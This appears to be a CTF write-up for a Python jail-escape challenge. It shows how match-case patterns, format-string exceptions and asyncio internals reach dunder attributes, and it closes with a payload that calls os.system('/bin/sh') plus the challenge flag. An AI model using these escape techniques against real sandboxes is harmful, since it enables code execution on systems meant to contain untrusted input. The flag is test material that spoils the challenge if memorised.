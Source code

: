 # Future With Escape

## Description

There was an exit

## Writeup

In this challenge, the biggest limitation is the inability to use `.`. Looking at the [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/#getting-attributes), we can see that there are various methods of accessing attributes. Let’s focus on one of them:

```python
match ():
    case object(__doc__=a):
        pass
print(a) # ().__doc__
```

Instead of `object`, you can also use another class, but in that case you can only extract attributes that belong to instances of that class.

`Future.__class__` is equal to `type`. This `type` is both a class and also a function that returns the class of an object when called as `type(obj)`. Therefore, running `future('__class__', obj)` will give you a reference to the class of `obj`.

Using this, for example, you can execute `"foobar".encode("utf-8")` as follows:
```python
str = future("\x5f\x5fclass\x5f\x5f", "")
type = future("\x5f\x5fclass\x5f\x5f", str)
match str:
    case type(encode=encode):
        pass
# str.encode("foobar", "utf-8") is the same as "foobar.encode("utf-8")
encode("foobar", "utf-8")
```

However, since `_` cannot be used, this method cannot access dunder attributes or methods such as `__subclasses__`, making it difficult to escalate all the way to RCE. For that, we need to use a second method of attribute access.

```python
try:
  "{0.__doc__.lol}".format(())
except Exception as e:
  a = e.obj
  print(a) # ().__doc__
```

By combining this with the first method, we can obtain `str.format`, and we can also access `e.obj`. If we can obtain an `Exception` or `BaseException` object, it should be possible to access dunder functions through this technique. (Note: in `except ... as e`, the `...` must be an instance of a class that inherits `BaseException`, otherwise a runtime error will occur.)

[`Future._make_cancelled_error`](https://github.com/python/cpython/blob/95d6e0b2830c8e6bfd861042f6df6343891d5843/Lib/asyncio/futures.py#L135) is a function that returns a `CancelledError` object, which can be obtained with `future("_make_cancelled_error", fut)`. Since `CancelledError` inherits from `BaseException`, `CancelledError.mro()` returns `[CancelledError, BaseException, object]`. By applying `pop` to this list, we can obtain references to `object` and `BaseException` in turn.

As a result, we are now able to access arbitrary attributes. From here, we just need to execute code equivalent to

```python
object.__subclassess__().__getitem__(190).__init__.__globals__.get("system")("/bin/sh")
```

## Flag

`fwectf{y0u_c4n_35c4p3_fr0m_j41l_bu7_n07_fu7ur3}`

